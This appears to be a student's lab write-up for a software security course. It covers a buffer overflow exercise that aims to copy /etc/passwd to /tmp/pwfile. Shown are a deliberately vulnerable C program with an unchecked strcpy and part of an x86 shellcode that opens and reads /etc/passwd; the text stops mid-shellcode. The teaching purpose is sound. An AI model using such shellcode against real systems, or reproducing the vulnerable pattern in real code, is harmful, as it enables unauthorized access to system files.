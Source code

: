 # Lab #1,22110008, Do Duc Anh, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
This lab is given a vulnerable C program and a shellcode source in asm and we must conduct the overflow attack
<br>**Question 1**: 
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
<br>**Answer 1**:
## 1. Create a file named `bof.c`:
*First, we write a C program that given and save it in a file:*<br>

```sh
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
} > bof.c
```
## 2.  Create a file named `shellcode.asm`:
*Second, we write a shellcode in asm that given and save it in a file:*<br>
```sh
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
```